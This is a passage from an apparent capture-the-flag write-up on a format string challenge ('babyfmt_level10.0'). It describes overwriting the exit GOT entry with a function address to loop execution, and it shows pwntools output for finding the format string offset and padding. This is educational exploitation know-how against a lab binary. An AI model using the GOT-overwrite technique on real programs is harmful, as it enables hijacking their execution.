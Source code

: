 As shown below, **printf** called and than calling **exit**. Same as previous one.

![](images/bd1129227998326adddd472e79135263.png)

There are several ways to abuse this one. But for simplicity the execution will be looped.
If **exit got entry** written with **func** address, the program never exit and that means infinite format string attack. 

### find offset and padlen values


```css
[+] Receiving all data: Done (174B)
[DEBUG] Received 0xae bytes:
    b'Here is the result:\n'
    b'Your input is:                                                                                             \n'
    b'aaaabaaacaaadaaaeaaaSTART0x6161616361616162END'
[*] Process '/host/babyfmt_level10.0' stopped with exit code 0 (pid 279)
[*] Found format string offset: 46
[+] User input starts at  : 46
[+] Needed pads           :4
[+] Numbwritten           :0
```

### Write exit got entry -> func address

The offset, padlen and numbwritten values detected as previous [[08 - Format String Attack - Redirect Code Execution to win (Full Relro+PIE Enabled)#^numbwritten-calculation|numbwritten calculation]].

